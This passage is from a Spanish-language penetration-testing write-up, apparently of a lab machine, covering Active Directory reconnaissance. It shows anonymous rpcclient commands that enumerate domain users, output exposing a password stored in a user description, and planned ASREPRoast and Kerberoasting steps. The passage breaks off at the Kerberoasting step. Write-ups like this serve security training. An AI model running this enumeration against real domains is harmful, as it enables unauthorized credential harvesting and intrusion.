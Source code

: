 Y efectivamente, puedo enumerar usuarios del dominio. 

Antes de probar un ataque [ASREPRoast](https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/as-rep-roasting-using-rubeus-and-hashcat) con `impacket-GetNPUsers` o mirar con [Kerbrute](https://github.com/ropnop/kerbrute) qué usuarios son válidos en el dominio, suelo mirar las descripciones de los usuarios para ver si encuentro algo interesante.

Enumerar descripciones mediante RIDS(Identificadores de usuario):

```bash
$~ rpcclient -U "" 192.168.182.175 -N -c "enumdomusers" | awk 'NF{print $NF}' | cut -d ":" -f2 | tr -d "[]" > rids.txt
$~ cat rids.txt | while read rid; do rpcclient -U "" 192.168.182.175 -N -c "queryuser $rid" 2>/dev/null ; done
```

Ejecutando esto, veo algo interesante en la descripción del usuario V. Ventz, lo que parece ser una contraseña.

```bash
User Name   :	V.Ventz
	Full Name   :	
	Home Drive  :	
	Dir Drive   :	
	Profile Path:	
	Logon Script:	
	Description :	New-hired, reminder: HotelCalifornia194!
	Workstations:	
	Comment     :	
	Remote Dial :
	Logon Time               :	Thu, 01 Jan 1970 01:00:00 CET
	Logoff Time              :	Thu, 01 Jan 1970 01:00:00 CET
	Kickoff Time             :	Thu, 14 Sep 30828 04:48:05 CEST
	Password last set Time   :	Fri, 01 Oct 2021 13:14:52 CEST
	Password can change Time :	Sat, 02 Oct 2021 13:14:52 CEST
	Password must change Time:	Thu, 14 Sep 30828 04:48:05 CEST
	unknown_2[0..31]...
	user_rid :	0x453
	group_rid:	0x201
	acb_info :	0x00000210
	fields_present:	0x00ffffff
	logon_divs:	168
	bad_password_count:	0x00000000
	logon_count:	0x00000000
	padding1[0..7]...
	logon_hrs[0..21]...
```

Contraseña: `HotelCalifornia194!`

La credencial es válida por `SMB`, pero no tenemos privilegios para conectarnos por `WINRM`. Ahora podría intentar aplicar un `Kerberoasting` para obtener un TGS, ahora que tengo credenciales válidas.

Probando Kerberoasting:
